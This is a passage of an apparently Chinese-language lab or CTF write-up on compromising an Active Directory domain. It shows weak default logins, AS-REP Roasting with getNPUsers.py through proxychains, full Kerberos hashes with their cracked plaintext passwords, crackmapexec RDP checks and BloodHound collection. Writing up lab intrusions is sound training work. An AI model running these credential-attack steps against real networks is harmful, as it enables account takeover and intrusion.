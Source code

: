 ```
root root@#123
```

连接 mysql 然后导出 OA 用户列表 (经典 AS-REP Roasting, 或者是先枚举用户名再跑 rockyou)

![image-20230819153326208](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308191533585.png)

当然也可以在后台导出, 同样是弱口令 admin/123456

![image-20230819153721766](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308191537801.png)

AS-REP Roasting

```shell
proxychains getNPUsers.py xiaorang.lab/ -dc-ip 172.22.15.13 -usersfile user.txt -request -outputfile hash.txt
```

hash

```shell
$krb5asrep$23$huachunmei@XIAORANG.LAB:0f48e917bf781eec69b0bd3ee9e05b6b$4700fc26eadd9b60b6efb2c0cd5b59d5b084b6235b7c2e4a6936d9778ab9dd61695152c51c640b065d22516c8ce2000782fdc494cc67b492aef65f737d772db3422cf39d51431c1731769b5a44330e0939d52e6cdbdb6fe72bc543a8105a5791975ae1d6066ffa5c514294f9f651260ab49f39ec97a6ac9d3f1cce7846bdf8fb0f0248c820216f911e127fcc500c8b3d8f84de129999937617188aa91c5aea513fa7c21211caf35de3a4b0b7638aa27584b42c24242a6e5101451ec5e05652c58760af58025c6a7c7a8a2bde74756b6da2a037e181a37492b1ec55b487441d44e3c0ebc159bcb348e7611f86
$krb5asrep$23$lixiuying@XIAORANG.LAB:041514fabe6d2a6e047f3dee67e4f70a$7e56418fc68c4f26c3070c4ab9e99997708d4f3e3c26be8a9649adc152f434214722c14bca7fe5e820d837c0ebf74de06cc0f5d220fb436272957511592262a5becf89955e1c6a5473ab47895e9eec9831c0250ba06925e28c07f0887e48c6fa41f3f5fd90ba6b7bcb5da9696daad05dc12bc7a51075d568a30692d08d1c7a64c8c2d4b748cb133a7d285853b200237df63fb64c152fe7b595eee0145827ee1f730f8238a2e517efec13b468ea5a21ed15fefd68eadd2cf75004b1424567df30125e11820f766198b695656ca5d98f73d586885e00e918d38be6d33b8636356186196f7d45c73555f2e0e2d0
```

hashcat 结果

```shell
lixiuying:winniethepooh
huachunmei:1qaz2wsx
```

crackmapexec rdp

![image-20230819154101066](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308191541098.png)

![image-20230819154139754](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308191541784.png)

都能连过去, 但是先别急, 跑一下 bloodhound 收集信息

```shell
proxychains bloodhound-python -u lixiuying -p winniethepooh -d xiaorang.lab -c all -ns 172.22.15.13 --zip --dns-tcp
```

![image-20230819154721461](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308191547497.png)
